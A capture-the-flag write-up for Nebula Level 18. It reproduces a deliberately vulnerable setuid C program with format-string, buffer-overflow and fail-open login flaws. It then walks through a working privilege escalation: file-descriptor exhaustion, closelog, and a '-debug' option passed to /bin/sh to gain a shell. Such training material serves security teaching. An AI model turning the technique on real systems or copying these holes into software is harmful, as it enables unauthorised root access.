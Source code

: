 # Nebula - Level 18

### About ###

>Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.
>
>To do this level, log in as the level18 account with the password level18 . Files for this level can be found in /home/flag18.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
    char file[64];

    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
      dprintf("Unable to read password file %s\n", PWFILE);
      return;
    }
                fclose(fp);
    if(strcmp(pw, file) != 0) return;    
  }
  dprintf("logged in successfully (with%s password file)\n", 
    fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}

void notsupported(char *what)
{
  char *buffer = NULL;
  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
  dprintf(what);
  free(buffer);
}

void setuser(char *user)
{
  char msg[128];

  sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
  printf("%s\n", msg);

}

int main(int argc, char **argv, char **envp)
{
  char c;

  while((c = getopt(argc, argv, "d:v")) != -1) {
    switch(c) {
      case 'd':
        globals.debugfile = fopen(optarg, "w+");
        if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
        setvbuf(globals.debugfile, NULL, _IONBF, 0);
        break;
      case 'v':
        globals.verbose++;
        break;
    }
  }

  dprintf("Starting up. Verbose level = %d\n", globals.verbose);

  setresgid(getegid(), getegid(), getegid());
  setresuid(geteuid(), geteuid(), geteuid());
  
  while(1) {
    char line[256];
    char *p, *q;

    q = fgets(line, sizeof(line)-1, stdin);
    if(q == NULL) break;
    p = strchr(line, '\n'); if(p) *p = 0;
    p = strchr(line, '\r'); if(p) *p = 0;

    dvprintf(2, "got [%s] as input\n", line);

    if(strncmp(line, "login", 5) == 0) {
      dvprintf(3, "attempting to login\n");
      login(line + 6);
    } else if(strncmp(line, "logout", 6) == 0) {
      globals.loggedin = 0;
    } else if(strncmp(line, "shell", 5) == 0) {
      dvprintf(3, "attempting to start shell\n");
      if(globals.loggedin) {
        execve("/bin/sh", argv, envp);
        err(1, "unable to execve");
      }
      dprintf("Permission denied\n");
    } else if(strncmp(line, "logout", 4) == 0) {
      globals.loggedin = 0;
    } else if(strncmp(line, "closelog", 8) == 0) {
      if(globals.debugfile) fclose(globals.debugfile);
      globals.debugfile = NULL;
    } else if(strncmp(line, "site exec", 9) == 0) {
      notsupported(line + 10);
    } else if(strncmp(line, "setuser", 7) == 0) {
      setuser(line + 8);
    }
  }

  return 0;
}
```

### Solution ###

The idea is to set the variable `globals.loggedin` to 1 in order to start a shell.

In the function `login`, it is possible to achieve that if the file pointer `fp` is NULL after the file `/home/flag18/password` is tried to be opened.

A possibility would be to open multiple files in order to reach the maximum open files limit, which is possible since, in the `main` function, in the loop where `getopt` is called, a file is opened for every `-d` found in the arguments passed to the program. When that limit is reached, it becomes impossible for that process to open another file.

It can be verified with the following command.

```
level18@nebula:/home/flag18$ /home/flag18/flag18 /tmp/flag18.sh $(perl -e "print '-d /tmp/misc 'x2000")
flag18: Unable to open /tmp/hellow: Too many open files
```

With some more tests, the error stops appearing when 1021 files are opened and if the command `login` is entered, the file `/tmp/misc` shows that the login was successful without using the password file.

```
level18@nebula:/home/flag18$ /home/flag18/flag18 /tmp/flag18.sh $(perl -e "print '-d /tmp/misc 'x1021")
login
```

```
level18@nebula:/home/flag18$ cat /tmp/stuff
Starting up. Verbose level = 0
logged in successfully (without password file)
```

Although, we can not start a shell just now, because there is an error if we do.

```
level18@nebula:/home/flag18$ /home/flag18/flag18 ./flag18.sh $(perl -e "print '-d /tmp/stuff 'x1021")
login
shell
/home/flag18/flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
```

There are too many file	s opened to do it. That is where the command `closelog` is useful, because it frees a place for another file descriptor.

```
level18@nebula:/home/flag18$ /home/flag18/flag18 ./flag18.sh $(perl -e "print '-d /tmp/stuff 'x1021")
login
closelog
shell
/home/flag18/flag18: -d: invalid option
Usage:	/home/flag18/flag18 [GNU long option] [option] ...
	/home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
```

`/bin/sh` does not recognize the option `-d`. What it does recognize though is the option `-debug`.

Finally, `getflag` can be executed with the help of the script `/tmp/flag18.sh`.

```
getflag>/tmp/getflag18
```

```
level18@nebula:/tmp$ /home/flag18/flag18 /tmp/flag18.sh $(perl -e "print '-debug /tmp/stuff 'x1021")
login
closelog
shell
```

```
level18@nebula:/tmp$ cat /tmp/getflag18
You have successfully executed getflag on a target account
```
